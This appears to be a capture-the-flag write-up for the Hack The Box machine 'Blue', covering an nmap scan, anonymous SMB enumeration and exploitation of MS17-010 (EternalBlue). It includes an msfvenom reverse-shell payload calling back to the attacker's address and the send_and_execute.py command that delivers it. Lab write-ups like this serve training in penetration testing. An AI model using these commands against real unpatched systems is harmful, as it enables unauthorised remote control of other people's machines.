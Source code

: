 # Enumeration:

```bash
# Nmap 7.92 scan initiated Sun Jul 17 20:57:23 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up (0.073s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 2008
OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
OS details: Microsoft Windows Server 2008 SP1
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-07-18T00:59:53
|_  start_date: 2022-07-17T19:07:52
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-18T01:59:52+01:00
|_clock-skew: mean: -19m57s, deviation: 34m37s, median: 1s

TRACEROUTE (using port 1025/tcp)
HOP RTT      ADDRESS
1   71.60 ms 10.10.14.1
2   71.60 ms 10.10.10.40

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 17 20:59:59 2022 -- 1 IP address (1 host up) scanned in 156.04 seconds
```
</br>

Nmap vulnerabilities scan: ```nmap -sS -p139,445 -Pn 10.10.10.40 -v --script vuln``` </br>
![nmap_vuln_scan](images/blue/nmap_vuln_scan.png) </br>
**Initial Shell:** </br>
 EternalBlue is a SMB exploit, to determine whether we can actually exploit it with anonymous authentication, we will try to connect anonymously with this command: </br>
```smbclient -L \\10.10.10.40``` </br>
As we can see it has listed the shares without having an authenticated username and password. </br>
First I used [checker.py](https://github.com/worawit/MS17-010/blob/master/checker.py) to find the accessible named pipe: </br>
![named_pipes](images/blue/named_pipes.png) </br>
Because guest authentication was allowed, I had to modify the exploit and checker.py file: </br>
![checker_modify](images/blue/checker_modify.png) </br>
``//`` - recognized as a guest. </br>
I could see that it is a x64 architecture machine, and I could see that I found some named pipes I could use. </br>
**Generate the Payload:** </br>
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=1234 EXITFUNC=thread -f exe  --platform windows -o reverseshell.exe``` </br>
**Kali Linux:** </br>
Command: ```python2 send_and_execute.py 10.10.10.40 reverseshell.exe samr``` </br>
![initial_shell_exploit](images/blue/initial_shell_exploit.png) </br> </br>
**Target Machine:** </br>
![reverse_shell](images/blue/reverse_shell.png)



